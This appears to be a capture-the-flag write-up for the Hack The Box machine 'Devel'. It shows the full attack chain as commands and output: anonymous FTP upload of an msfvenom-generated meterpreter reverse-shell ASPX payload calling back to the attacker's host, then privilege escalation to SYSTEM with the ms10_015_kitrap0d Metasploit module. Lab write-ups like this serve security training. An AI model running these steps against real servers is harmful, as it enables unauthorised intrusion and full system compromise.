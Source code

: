<center><h1>Devel</h1></center>
<br>
<center><h3>Summary</h3></center>
<br><br>
- Use an Anonymous FTP login with write permission to upload a shell
- Use <b>ms10_015_kitrap0d</b> to escalate priveleges to root
<br><br>
First thing is always an Nmap scan

```
# Nmap 7.70 scan initiated Thu May 30 12:00:56 2019 as: nmap -sV -sC -T4 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 12:01:12 2019 -- 1 IP address (1 host up) scanned in 16.12 seconds
```
Only two ports open but I do see that there is Anonymous login allowed on FTP.
```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
If we list the files inside the directory we see a few files. From the looks of them it seems to be the default files for an IIS installation.
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
We can confirm this by navigating to <b>http://10.10.10.5</b>

<center><img src="/htb/devel/welcome.png"></center>
<br>
Now I know the files from the FTP can be directly accessed from the Web page. I decide to check if I have write privileges to the FTP server so I could upload a reverse shell. I test this by upload a test file
```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
967 bytes sent in 0.00 secs (1016.5081 kB/s)
```
If I go back to the web page and navigate to <b>test.txt</b> we see my file

<center><img src="/htb/devel/test.png"></center>
<br>
I am going to use msfvenom to create the payload for the reverse shell
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
```
I put the shell onto the system using FTP
```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (31.0657 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-23-19  03:42AM                 2834 shell.aspx
09-23-19  03:35AM                    9 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Now we need to set up our listener. Metasploits's <b>exploit/multi/handler</b> will be used for this
```
msf5 exploit(multi/handler) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.21:4444
```
Now in the web page, navigate to <b>http://10.10.10.5/shell.aspx</b>

<center><img src="/htb/devel/shell.png"></center>
<br>
Now if we check the listener we should have a <b>meterpreter</b> shell. Checking the user we will see that we have a low privilege shell
```
[*] Started reverse TCP handler on 10.10.14.21:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.5:49157) at 2019-09-19 08:49:29 -0400

meterpreter > getuid
Server username: IIS APPPOOL\Web
```
Next step is to run the <b>local_exploit_suggester</b>
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
We get tons of suggestions but the one I am going to use is <b>ms10_015_kitrap0d</b>. The reason I chose this one is because I have used it before and know that it works

Now we background the current <b>meterpreter</b> session so we can load in the <b>ms10_015_kitrap0d</b> exploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 2
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.21:5555
[*] Launching notepad to host the exploit...
[+] Process 2140 launched.
[*] Reflectively injecting the exploit DLL into 2140...
[*] Injecting exploit into 2140 ...
[*] Exploit injected. Injecting payload into 2140...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.21:5555 -> 10.10.10.5:49161) at 2019-09-19 09:10:29 -0400

meterpreter>
```
Now we have a new <b>meterpreter</b> shell and if we do <b>getuid</b> it will show that we are <b>NT AUTHORITY SYSTEM</b>
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now we grab both flags. To do this type <b>shell</b> so we can get a windows shell.
```
meterpreter > shell
Process 3584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
The user flag is located in <b>C:\Users\babis\Desktop</b>
```
Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
The root flag is located in <b>C:\Users\Administrator\Desktop</b>
```
Directory of C:\Users\Administrator\Desktop

18/03/2017  02:17     <DIR>          .
18/03/2017  02:17     <DIR>          ..
18/03/2017  02:17                 32 root.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
<br><br><br>
